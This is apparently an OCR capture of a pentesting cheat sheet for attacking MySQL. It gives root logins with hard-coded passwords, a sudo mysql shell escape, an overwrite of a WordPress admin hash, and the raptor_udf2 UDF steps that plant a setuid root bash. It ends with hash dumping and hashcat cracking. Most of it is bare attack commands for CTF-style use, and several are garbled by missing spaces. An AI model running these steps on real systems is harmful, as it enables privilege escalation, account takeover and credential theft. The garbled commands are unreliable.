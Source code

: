 ## REMOTE LOGIN:

• mysql -u root -proot -h 192.168.142.16 -P 3306  
• sudo mysql -u root -pLetMeIn123 -e '\!/bin/sh' (suid/sudotoroot)

## UPDATING WORDPRESS PASSWORD:

• Generate MD5hash - https://www.md5hashgenerator.com/  
```
update wp_users set user_pass="5f4dcc3b5aa765d61d8327deb882cf99" where id=1; (refer sunset-midnight walkthrough if doubt)
```
## UDF EXPLOIT: (Can be used for LPE)

MySQL 4.x/5.0 (Linux) - User-Defined Function Dynamic Library

```
gcc-g-craptor_udf2.c-fPIC
    
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
    
mysql -u root
    
use mysql;
    
create table foo(lineblob);
    
insert into foo values(load_file('/home/raptor_udf2.so'));
    
select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
    
create function do_system returns integer soname 'raptor_udf2.so';
    
select do_system('cp/bin/bash/tmp/rootbash; chmod +xs/tmp/rootbash');
    
exit
    
user@target$ /tmp/rootbash -p
```
Note: In some scenarios for the above thing to work we might need to edit /etc/mysql/mariadb.conf.d/50-server.cnf and /etc/mysql/my.cnf and change user= whatever name to root.
## Find Hash of Users and Crack using Hashcat 
```
show databases;  
use <database>;  
show tables;
select * from <tablename>; 
describe <table_name>;  
show columns from<table>;
```
hashcat hash.txt rockyou.txt
```
select version(); (version)  
select @@version(); (version)  
select user(); (User) 
select database(); (databasename)
```

